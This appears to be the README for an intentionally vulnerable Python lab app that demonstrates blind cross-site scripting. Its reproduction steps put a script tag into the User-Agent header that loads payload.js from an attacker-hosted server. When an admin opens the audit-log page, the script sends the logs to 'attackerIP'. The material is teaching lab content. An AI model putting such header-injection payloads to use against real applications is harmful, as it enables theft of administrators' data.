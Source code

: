 # blindxss
## This is a vulnerable application written is python to demonstrate a blind XSS scenario

## Requirements
- Need python 2 or 3

## setup
- pip install -r requirements.txt

## how to run
```sh
python server.py
```

Open the browser and navigate to [http://127.0.0.1:8090](http://127.0.0.1:8090)

## steps to reproduce
### raise a local python server in your machine 
```sh
### cd to the directory where you download the code
### in case of python3
python -m http.server 9090
### in case of python 2
python -m SimpleHTTPServer 9090
```

## open payload.js
- line number 7 replace it with loopback ip if you are playing in the same box, if you raise the python server on different machine then you can grab that IP and replace it with attackerIP

## reproduce the attack
- using burp intercept the response for [http://127.0.0.1:8090/logins](http://127.0.0.1:8090/logins).
- add some special char in username and password POST parameter request body that you have intercepted in the above step.
- now change the "User-Agent" value to <script src=http://IPaddress:9090/payload.js></script> of the same intercepted request and send the request.
- Once you visit the http://127.0.0.1:8090/adminLogAudit on the machine where you are running the server.py. It will execute the injected javascript and sends back the whole auditLogs to AttackerIP that you have mentioned in payload.js (note: /adminLogAudit can me only accessed from the app where its running)
